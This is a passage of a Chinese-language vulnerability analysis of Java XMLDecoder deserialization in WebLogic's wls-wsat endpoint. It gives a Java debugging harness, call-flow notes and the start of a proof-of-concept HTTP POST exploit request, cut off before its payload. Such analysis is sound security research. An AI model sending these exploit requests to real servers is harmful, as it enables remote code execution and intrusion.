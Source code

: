     ```java
    import java.beans.XMLDecoder;
    import java.io.*;
    
    public class Main {
      public static void main(String[] args) throws IOException, InterruptedException {
          File file = new File("poc.xml的绝对路径");
          XMLDecoder xd = null;
          try {
              xd = new XMLDecoder(new BufferedInputStream(new FileInputStream(file)));
          } catch (Exception e) {
              e.printStackTrace();
          }
          Object s2 = xd.readObject();
          xd.close();
    
      }
    }
    ```
    
    第 9 行下个断点，跟进 XMLDecoder 类，发现这里首先 new 了一个 DocumentHandler 对象
    
    ![image-20220129141322391](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-a15549e2679c1a21a0e95971020d54e7cd98eb84.png)
    
    首先对各种标签的解析
    
    ![image-20220129141521113](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-6f75a2ba7c0231be73e41db4c39fa16d76c45223.png)
    
    最后在 处调用 getValue ,得到类的实例。
    
    ![image-20220129162957211](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-522ea5026f02dd3fd770be8a9e2ead6dd8b93934.png)
    
    补上一张@ fnmsd给出的XMLDecoder解析xml的流程图解释整个调用过程
    
    ![xmlDecoder](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-ff2e13ae518e682861d5996b01f384b9ab8ed2c8.png)
    
    然后就是追一下 weblogic 是在哪调用 XMLDecoder 的
    
    ##### poc:
    
    ```xml
    POST /wls-wsat/CoordinatorPortType HTTP/1.1
    Host: 172.21.65.112:7001
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 824
    Accept-Encoding: gzip, deflate
    SOAPAction:
    Accept: */*
    User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
    Connection: keep-alive
    Content-Type: text/xml
    